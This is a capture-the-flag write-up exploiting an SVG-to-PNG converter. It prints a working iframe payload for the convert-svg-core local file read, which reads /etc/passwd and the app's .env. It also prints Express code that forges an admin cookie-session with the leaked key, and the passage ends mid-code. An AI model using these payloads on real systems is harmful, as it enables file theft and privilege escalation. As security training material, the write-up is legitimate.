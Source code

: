 We're given a website with a feature for registration and login.

![](mutation-2.png)

In the _dashboard_ menu, We're given a feature that converts SVG into PNG.

After playing with the request, we could trigger the application to show an error message. With this information, we could find out what library is used by this application.

![](mutation-3.png)

The newest CVE for this library is a local file read. So, we just copy-pasting again with the payload.

[https://security.snyk.io/vuln/SNYK-JS-CONVERTSVGCORE-1582785](https://security.snyk.io/vuln/SNYK-JS-CONVERTSVGCORE-1582785)

```html
<svg-dummy></svg-dummy>
<iframe src="file:///etc/passwd" width="100%" height="1000px"></iframe>
<svg viewBox="0 0 240 80" height="1000" width="1000" xmlns="http://www.w3.org/2000/svg">
  <text x="0" y="0" class="Rrrrr" id="demo">data</text>
</svg>

```

![](mutation-4.png)

![](mutation-5.png)

Since we couldn't find the flag file, we attempted to read the source code on this application.

According to the another NodeJS challenge, the usual source code is placed on `/app`

So, we just need to check the /app/index.js and find out it's using a `.env`.

![](mutation-6.png)

![](mutation-7.png)

After that, I am reading the `/app/routes/index.js`, We need to forge the cookie with `SECRET_KEY` on `.env` before so we could change the user into `admin`

![](mutation-8.png)

```javascript
const express = require('express')
const cookieParser = require('cookie-parser')
const session = require('cookie-session')

app = express()

app.use(cookieParser())
app.use(session({
    name:'session',
    keys:['5921719c3037662e94250307ec5ed1db']
}))

app.get('/', async (req, res)=>{
    try {
        req.session.username = 'admin'
        return res.send('nice');
    } catch (error) {
        console.log(error)
    }
})

app.listen(1111, ()=>{
```